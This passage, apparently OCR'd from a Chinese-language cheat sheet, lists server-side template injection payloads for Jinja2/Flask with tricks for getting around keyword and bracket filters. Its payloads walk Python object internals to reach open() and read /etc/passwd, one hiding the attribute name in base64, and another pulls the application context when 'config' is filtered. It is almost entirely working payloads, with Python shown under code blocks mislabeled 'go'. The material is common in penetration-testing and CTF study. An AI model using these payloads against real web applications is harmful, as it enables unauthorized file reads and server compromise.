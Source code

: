 ```go
{{().__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}
```

- 替代的方法

过滤init，可以用`__enter__`或`__exit__`替代

```go
{{().__class__.__bases__[0].__subclasses__()[213].__enter__.__globals__['__builtins__']['open']('/etc/passwd').read()}}



 



{{().__class__.__bases__[0].__subclasses__()[213].__exit__.__globals__['__builtins__']['open']('/etc/passwd').read()}}
```

过滤config，我们通常会用`{{config}}`获取当前设置，如果被过滤了可以使用以下的payload绕过

```go
{{self}} ⇒ <TemplateReference None>



{{self.__dict__._TemplateReference__context}}
```

#### 过滤中括号

过滤了`[`和`]`

- 数字中的中括号

在python里面可以使用以下方法访问数组元素

```go
Python 3.7.8



>>> ["a","kawhi","c"][1]



'kawhi'



>>> ["a","kawhi","c"].pop(1)



'kawhi'



>>> ["a","kawhi","c"].__getitem__(1)



'kawhi'
```
